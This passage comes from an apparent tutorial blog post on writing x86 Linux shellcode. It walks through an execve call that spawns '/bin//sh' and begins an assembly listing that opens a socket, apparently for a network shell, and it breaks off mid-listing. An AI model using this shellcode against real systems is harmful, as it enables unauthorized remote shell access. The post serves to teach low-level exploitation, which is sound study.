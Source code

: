 {% endhighlight %}

### 6. Execute the shell [ `execve` ]

The `execve()` executes the program referred to by `pathname`. This causes the program that is currently being run by the calling process to be replaced with a new program, with newly initialized stack, heap, and (initialized and uninitialized) data segments. From the [man 2 execve](http://man7.org/linux/man-pages/man2/execve.2.html), following is the syntax:

{% highlight c %}
int execve(const char *pathname, char *const argv[], char *const envp[]);
{% endhighlight %}

The first argument should be the program name; the second should be an array containing the program name and arguments. The last argument should be the environment data.

The C code:
{% highlight c linenos %}
execve(SHELL, NULL, NULL);
{% endhighlight %}

To get the syscall number on Ubuntu x86:

{% highlight console %}
kecebong@ubuntu:~$ grep execve /usr/include/i386-linux-gnu/asm/unistd_32.h
#define __NR_execve              11
{% endhighlight %}

and the following is the assembly code:

{% highlight nasm linenos %}
execve:
    ; execve
    push byte 0x0b          ; execve = 11 ~ 0x0b
    pop eax                 ; eax = 0x0b

    ; arg execve(SHELL, NULL, NULL);
    xor ecx, ecx            ; zeroing ecx
    push ecx                ; null
    push ecx                ; null
    push 0x68732f2f         ; "hs//""
    push 0x6e69622f         ; "nib/"
    mov ebx, esp            ; copy arguments on the stack to ecx
    int 0x80
{% endhighlight %}

## The Final Assembly Code

Putting all pieces together, this is the first assignment solution in assembler.

{% highlight nasm linenos %}
global _start

section .text

_start:
    xor ecx, ecx        ; ecx = 0
    mul ecx             ; eax = 0
    cdq                 ; xor edx, edx

socket:
    ; socketcall
    push byte 0x66      ; socketcall 102 ~ 0x66 
    pop eax             ; eax = 0x66
    push byte 0x01      ; SYS_SOCKET = 1
    pop ebx             ; ebx = 0x1
    
    ; socket args            
    push ecx            ; ecx = 0